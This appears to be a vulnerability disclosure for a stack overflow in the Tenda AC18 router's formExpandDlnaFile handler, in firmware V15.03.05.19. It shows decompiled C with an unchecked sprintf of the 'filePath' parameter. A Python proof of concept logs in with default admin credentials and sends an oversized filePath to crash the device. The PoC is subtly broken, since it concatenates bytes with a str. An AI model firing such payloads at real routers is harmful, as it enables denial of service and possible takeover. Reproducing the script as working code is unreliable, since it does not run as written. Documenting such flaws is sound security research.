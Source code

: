 
## Tenda AC18 stack overflow vulnerability

### * Version

V15.03.05.19_multi (ac18_kf_V15.03.05.19(6318_)_cn.bin)

### * Firmware
[https://www.tenda.com.cn/download/detail-2683.html](https://www.tenda.com.cn/download/detail-2683.html)




### * Vulnerability Detail

In function formExpandDlnaFile, the content obtained by the program from the parameter "filePath" is passed to local_24, 
and then the local_24 is directly copied into the acStack1092 stack through the sprintf function.
There is no size check, so there is a stack overflow vulnerability. The attacker can easily perform a Deny of Service Attack or Remote Code Execution with carefully crafted overflow data.


```c
void formExpandDlnaFile(undefined4 param_1)

{
  int iVar1;
  undefined4 uVar2;
  undefined auStack6468 [256];
  char acStack6212 [5120];
  char acStack1092 [512];
  char acStack580 [512];
  int local_44;
  DIR *local_40;
  dirent *local_3c;
  undefined4 local_38;
  undefined4 local_34;
  undefined4 local_30;
  void *local_2c;
  undefined4 local_28;
  undefined4 local_24;
  char *local_20;
  int local_1c;
  int local_18;
  int local_14;
  
  local_24 = 0;
  local_28 = 0;
  local_2c = (void *)0x0;
  local_30 = 0;
  local_34 = 0;
  local_38 = 0;
  local_3c = (dirent *)0x0;
  local_40 = (DIR *)0x0;
  memset(acStack580,0,0x200);
  memset(acStack1092,0,0x200);
  memset(acStack6212,0,0x1400);
  memset(auStack6468,0,0x100);
  local_44 = 0;
  local_14 = 0;
  local_18 = 0;
  local_1c = 0;
  local_20 = (char *)0x0;
  local_24 = FUN_0002b884(param_1,"filePath",&DAT_000f2e24);
  local_28 = FUN_0002b884(param_1,"folderGrade",&DAT_000f2e24);
  GetValue("dlna.db",auStack6468);
  sprintf(acStack1092,"%s/%s","/var/etc/upan",local_24);  //here is overflow
  local_20 = acStack1092;
  while (local_20 = strchr(local_20,0x2f), local_20 != (char *)0x0) {
    local_1c = local_1c + 1;
    local_20 = local_20 + 1;
  }
  local_30 = FUN_00041bfc();
  local_34 = FUN_00041bc0();
...
}
```

### * POC
```python
import requests


cmd  = b'filePath=' + b'A' * 1800 + '&folderGrade=1&subfileList=aaaaaaaaa'


url = b"http://192.168.2.2/login/Auth"
payload = b"http://192.168.2.2/goform/expandDlnaFile/?" + cmd

data = {
    "username": "admin",
    "password": "admin",
}

def attack():
    s = requests.session()
    resp = s.post(url=url, data=data)
    print(resp.content)
    resp = s.post(url=payload, data=data)
    print(resp.content)

attack()

```


